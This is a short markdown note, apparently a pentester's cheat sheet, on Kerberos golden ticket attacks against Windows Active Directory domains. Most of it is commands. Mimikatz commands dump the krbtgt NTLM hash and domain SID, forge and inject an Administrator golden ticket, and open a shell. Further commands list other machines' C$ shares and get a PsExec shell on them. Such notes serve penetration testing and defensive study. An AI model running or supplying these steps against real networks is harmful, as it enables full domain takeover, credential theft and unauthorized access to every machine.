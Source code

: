 # What is it?
When the krbtgt account is compromised, golden tickets can be granted, giving access to anything on the domain.

Using the golden ticket. access to any other machine is granted. Commands can be run from one machine to access all the others, or even make a shell with PsExec.
# How to do it
Required: krbtgt NTLM hash, domain SID.
## mimikatz
```
privilege::debug
```
```
lsadump::lsa /inject /name:krbtgt
```
The output will provide the SID in the following format:

Domain : [DOMAIN NAME] / [SID NUMBER]

Once this information is obtained, run the following command on mimikatz:
```
kerberos::golden /User:Administrator /domain:[DOMAIN NAME] /sid:[FULL SID] /krbtgt:[krbtgt NTLM HASH] /id:500 /ptt
```
From there, a cmd can be launched with the following command:
```
misc::cmd
```
Finally, on cmd, the session can access any machine. e.g:
```batch
dir \\$(HOSTNAME)\c$
```
Install psexec, then run this to get a shell on the machine:
```bash
psexec.exe \\$(HOSTNAME) cmd.exe 
```
